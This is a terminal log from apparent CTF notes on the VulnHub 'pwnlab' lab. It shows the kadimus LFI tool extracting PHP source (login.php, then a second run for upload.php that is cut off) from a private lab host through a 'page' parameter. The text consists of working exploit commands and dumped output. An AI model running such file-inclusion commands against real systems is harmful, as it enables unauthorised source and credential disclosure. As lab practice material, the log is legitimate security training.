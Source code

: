 ```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "login" -O login.php  --proxy http://127.0.0.1:8080
 _  __         _ _
| |/ /__ _  __| (_)_ __ ___  _   _ ___
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

[21:18:41] [INFO] trying get source code of file: login
[21:18:41] [INFO] valid base64 returned:
[21:18:41] [INFO] check the output file

<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
        $luser = $_POST['user'];
        $lpass = base64_encode($_POST['pass']);

        $stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
        $stmt->bind_param('ss', $luser, $lpass);

        $stmt->execute();
        $stmt->store_Result();

        if ($stmt->num_rows == 1)
        {
                $_SESSION['user'] = $luser;
                header('Location: ?page=upload');
        }
        else
        {
                echo "Login failed.";
        }
}
else
{
        ?>
        <form action="" method="POST">
        <label>Username: </label><input id="user" type="test" name="user"><br />
        <label>Password: </label><input id="pass" type="password" name="pass"><br />
        <input type="submit" name="submit" value="Login">
        </form>
        <?php
}

root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "upload" -O upload.php  #--proxy http://127.0.0.1:808
 _  __         _ _
| |/ /__ _  __| (_)_ __ ___  _   _ ___
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

```